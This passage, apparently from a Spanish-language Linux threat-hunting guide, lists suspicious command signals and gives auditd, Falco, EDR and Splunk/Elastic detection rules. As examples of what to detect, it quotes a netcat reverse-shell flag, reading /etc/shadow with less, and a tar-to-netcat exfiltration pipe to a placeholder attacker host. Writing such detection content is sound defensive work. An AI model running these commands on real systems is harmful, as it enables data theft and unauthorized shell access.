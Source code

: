  - Señal: `nc` con flag `-e` o `-c` y conexión saliente persistente. Netcat raramente usado con `-e` en servidores de producción.

- **`/usr/bin/less /etc/shadow`** cuando `less` es invocado por usuario sin permiso directo

  - Señal: acceso a ficheros sensibles con binarios que pueden ser usados para leer archivos privilegiados (auditar quien lanzó `less` y por qué).

- **`tar -cf - /sensitive | nc attacker 9000`** (exfiltración por pipe)

  - Señal: proceso `tar` piping a netcat, conexiones salientes tras lectura de rutas críticas.

### Detección y hunting — consultas y reglas útiles

#### 1) Auditd (Linux) — reglas recomendadas (concepto)

- Auditar ejecución de binarios sensibles (lista blanca/negra): `auditctl -a always,exit -F path=/usr/bin/wget -F perm=x -k suspicious_downloads`
- Auditar cambios en crontabs, systemd units, SUID bit changes: monitor `chmod` on SUID files and writes to `/etc/cron*` and `/etc/systemd/system`.

> Recomendación: no auditar TODO sin plan; en entornos con alta carga, priorizar binarios de alto riesgo y SUID.

#### 2) Falco rules (ejemplos conceptuales)

- Detectar ejecución de `curl/wget` por procesos padre no expected:

```yaml
- rule: Suspicious Curl Invocation From Non-Shell
  desc: Detect curl invoked from unusual parent process
  condition: evt.type = execve and proc.name = "curl" and not proc.pname in ("bash","sh","systemd")
  output: "curl launched by %proc.pname (user=%user.name cmd=%proc.cmdline)"
  priority: WARNING
```

- Detectar creación de crontab por usuario no autorizado:

```yaml
- rule: Cronfile Modified
  condition: write_file and fd.name startswith "/etc/cron"
  output: "cron file modified: %fd.name by %user.name"
  priority: CRITICAL
```

#### 3) Syslog / EDR correlation ideas

- Correlación: `ProcessCreate` (curl/wget/nc/python) + `NetworkConnect` (to external IP) + `FileCreate` (temp/\*.exe or /tmp/tarball) → alta prioridad.
- Alertar cuando procesos con capacidad de spawn shell (python/perl/ruby) son lanzados por servicios de red (nginx, tomcat) o por usuarios no dev.

#### 4) Hunting queries (Elastic/Splunk conceptual)

- Buscar `proc.name: "wget" and parent.name: NOT IN ("bash","sh","root-shell")`
- Buscar `proc.cmdline: ("-c" AND "python")` o `proc.cmdline: ("python -c" AND "pty")`

### Mitigaciones y controles (priorizados)
